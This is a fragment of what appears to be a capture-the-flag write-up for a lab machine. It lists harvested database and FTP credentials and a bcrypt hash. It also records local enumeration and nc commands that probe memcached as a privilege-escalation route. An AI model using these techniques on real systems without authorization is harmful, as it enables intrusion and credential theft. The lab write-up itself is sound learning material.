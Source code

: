 ```php
?>
```

`openemr:3open6emr9` unfortunately this password does not work for ash or luffy; logs into mysql

linpeas

$2y$04$usesomesillystringfore7hnbRJHxXVLeakoG8K30oukPsA.ztMG = bcrypt hash for "password" bcb04b7e103a0cd8b54763051cef08bc55abe029fdebae5e1d417e2ffb2a00a3

in file: /var/www/hms.htb/public\_html/custom/export\_labworks.php found `openemr:secret` creds for ftp

there is docker running on ip 172.17.0.1

```text
ash@cache:/dev/shm$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:7e:cb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.188/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:7ecb/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86387sec preferred_lft 14387sec
    inet6 fe80::250:56ff:feb9:7ecb/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0b:6b:d9:88 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

/var/www/hms.htb/public\_html/docker-compose.yml contains info about all the different databases: root password = root; couchdb = admin:password

### Getting a shell

```text
memcache   959  0.0  0.1 425792  4168 ?        Ssl  13:01   0:03 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

Saw memcached in running processes with `ps aux`. didn't have much experience with it before so I started doing some reading to see if there were any privesc routes by using it. It was running on default port 11211. _It also stuck out a bit to me because of the `cache` theme on the box!_

[https://book.hacktricks.xyz/pentesting/11211-memcache](https://book.hacktricks.xyz/pentesting/11211-memcache) memcached ash@cache:/dev/shm$ echo "version" \| nc -vn 127.0.0.1 11211 Connection to 127.0.0.1 11211 port \[tcp/\*\] succeeded! VERSION 1.5.6 Ubuntu

```text
ash@cache:/dev/shm$ echo "stats" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT pid 959
STAT uptime 14741
STAT time 1597079215
STAT version 1.5.6 Ubuntu
STAT libevent 2.1.8-stable
STAT pointer_size 64
STAT rusage_user 1.068598
STAT rusage_system 2.023156
STAT max_connections 1024
STAT curr_connections 1
STAT total_connections 248
```